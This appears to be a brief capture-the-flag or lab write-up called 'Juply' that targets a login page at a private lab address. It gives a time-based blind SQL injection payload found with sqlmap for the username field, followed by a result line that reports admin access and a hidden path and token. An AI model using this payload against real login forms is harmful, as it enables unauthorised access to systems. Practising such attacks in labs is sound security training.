 # Juply

```
10.10.10.16:8020
```

sendarticle/doLogin.php


## sqlmap

SqlInjection payload  

username=BhiG' RLIKE SLEEP(5)-- pxay&password=

## Result
you are admin go to /61e8a0c58e8e18556001776a9aef2537a232e6577a5cca9134a781 <!-- token: DCdb31SaT5Qm5Y7RENgw -->






